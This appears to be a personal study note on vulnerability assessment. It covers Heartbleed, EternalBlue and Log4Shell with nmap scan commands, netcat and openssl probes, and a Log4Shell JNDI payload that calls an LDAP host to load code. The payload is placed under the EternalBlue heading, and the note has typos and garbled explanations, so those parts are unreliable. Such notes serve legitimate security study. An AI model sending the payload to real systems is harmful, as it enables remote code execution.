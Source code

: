```yaml
---
title: 'Vulnerability Assessment'
pubDate: 'May 12 2023'
slug: 'trip/vulnerability-assessment'
---
```


Risk Management -> Vulnerability Management -> Vulnerability Assessment -> Penetration Test

NIST: National Vulnerability Database

Fix machine vulnerability if that is identified in the risk management process

## OpenSSL Heartbleed bug (CVE-2014-0160)

Do not handle properly Heartbeat Extension packets, which allows remote attackes to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, by reading private keys.

**Anatomy:** We send a packet as the part of TLS entry so there is a TCP HandShake and the next layer above is the encription connection and as part of that public and private key for each side that will encript a shared private key that is simetric.

```bash

$nmap -sV --sript ssl-enum-ciphers -p443 target

#TLSv1.0, TLSv1.1, TLSv1.2 vulnerable

$nmap -p443 --script ssl-heartbleed target

nc -v domain.com 80 # GET / HTTP/1.0

openssl s_client -connect domain.com:443 # GET / HTTP/1.0

```

## EternalBlue - MS17-010 (CVE-2017-0143)

**_${jndi:ldap://demo.local:1389/mycode}_**

Server fails to parse logged data as str and evaluates JNDI lookup, java naming and directory interface

```bash
# script from nmap: smb-vuln-ms17-010
# EternalBlue attack SMBv1 server, BufferOverflow allows to RCE
$nmap -sV -O demo.local

```

## Log4J - (CVE-2021-44228)

Its useful for login in java.

Attacker can control log messages or log message parameters can execute code from LDAP servers

```bash
$nmap --sript log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p8080 172.17.42.1
```
